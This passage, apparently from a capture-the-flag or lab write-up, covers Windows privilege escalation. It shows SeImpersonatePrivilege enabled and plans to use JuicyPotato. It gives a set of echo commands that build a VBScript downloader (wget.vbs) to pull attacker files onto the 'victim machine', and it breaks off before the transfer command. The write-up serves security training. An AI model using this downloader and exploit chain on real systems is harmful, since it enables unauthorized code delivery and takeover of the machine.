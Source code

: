```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= =SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
{: .nolineno}

Lets Transfer the `JuicyPotato.exe` Tool to get Impersonate the Privileges :

I tried `certutil.exe` but it did not worked so I used `vbscript` method of `cscript` to transfer the files to victim machine like this →

Lets run this in Victim machine →

```vbnet
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
{: .nolineno}

And Now run this command that will transfer the file from attacker machine to victim machine like this →
